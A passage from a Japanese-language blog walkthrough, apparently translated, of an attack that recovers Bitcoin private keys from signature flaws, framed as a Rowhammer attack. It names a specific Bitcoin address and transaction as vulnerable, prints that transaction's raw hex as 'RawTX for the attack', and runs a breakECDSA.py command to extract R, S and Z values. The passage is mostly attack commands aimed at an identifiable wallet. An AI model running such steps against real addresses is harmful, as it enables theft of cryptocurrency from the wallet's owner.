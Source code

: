 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>詳細な暗号解析により、同じビットコイン アドレスの<a href="https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef" target="_blank" rel="noreferrer noopener"><strong>96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef</strong></a>にも重大な脆弱性が見つかりました。<strong><code>&nbsp;TXID:</code></strong><a href="https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef" target="_blank" rel="noreferrer noopener"><strong></strong></a></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>攻撃に備えて RawTX を準備する</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o" target="_blank" rel="noreferrer noopener">1HhZSwcEj5ncVoPT9bAupvcEjwToY1rJ1o</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/96c94c5b69c60ab4e3889b11fee54519fc6ff0f228f37554dd0dc766ab3909ef
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-131-1024x141.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1214"/></figure>



<pre class="wp-block-code"><code>RawTX = 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>
